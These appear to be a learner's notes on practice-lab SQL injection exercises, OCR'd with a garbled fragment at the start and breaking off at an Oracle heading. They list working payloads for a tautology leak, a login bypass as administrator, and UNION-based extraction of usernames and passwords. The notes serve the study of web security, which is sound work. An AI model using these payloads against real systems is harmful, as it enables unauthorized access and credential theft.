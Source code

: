 32~3SS+ZRr9LQ'Z8FEJPPBSn5{9CqD=R

### SQL Injection 1 Information Leak:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1

list all products

' or 1=1 --

### SQL Injection 2 Authentication Bypass:

SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

login as administrator

administrator' --

### SQL Injection 3 Union SQLi Information Leak:

1. Determine number of columns

' union select NULL --

' union select NULL,NULL --

' union select NULL,NULL,NULL --

Actually can guess, cuz there are 3 columns so there are 3 values being pulled from the database

' union select 0,version(),0 --

first field must be a number

second field must be a string

third field must be a number

### SQL Injection 4 Union SQLi Information Leak:

Same as #3, same number of columns based on observation

' union select 0,'B421x0',0 --

### SQL Injection 5 Union SQLi Information Leak:

Number of columns change from 3 to 2 as each record has 2 field - one title and one description

' union select version(),version() --

' union select username,password from users --

### SQL Injection 5 Union SQLi Information Leak 2 columns in 1:

'UNION SELECT 0, username || '~' || password FROM users--

### SQL Injection 6 Union SQLi Information Leak for Oracle
